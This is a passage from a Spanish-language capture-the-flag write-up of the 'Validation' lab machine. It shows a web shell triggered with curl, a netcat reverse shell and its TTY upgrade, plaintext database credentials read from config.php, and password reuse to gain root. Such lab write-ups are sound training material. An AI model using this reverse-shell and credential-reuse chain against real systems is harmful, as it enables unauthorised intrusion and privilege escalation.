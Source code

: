 Tramito una petición por GET

```null
curl -s -X GET http://10.10.11.116/pwned.php
```

Gano acceso al sistema en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.11.116] 59752
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ script /dev/null -c -bash
script /dev/null -c -bash
Script started, output log file is '/dev/null'.
sh: 0: Illegal option -h
Script done.
www-data@validation:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@validation:/var/www/html$ export TERM=xterm
www-data@validation:/var/www/html$ export SHELL=bash
www-data@validation:/var/www/html$ stty rows 55 columns 209
```

Puedo ver la primera flag

```null
www-data@validation:/home/htb$ cat user.txt 
80731d0aa4d8d4c4a4fd5a61c8daa860
```

# Escalada

En ```config.php``` se exponen credenciales en texto claro

```null
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

La constraseña se reutiliza para ```root```. Puedo ver la segunda flag

```null
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html# cat /root/root.txt 
9d597668993420c8c30551bebde12b01
```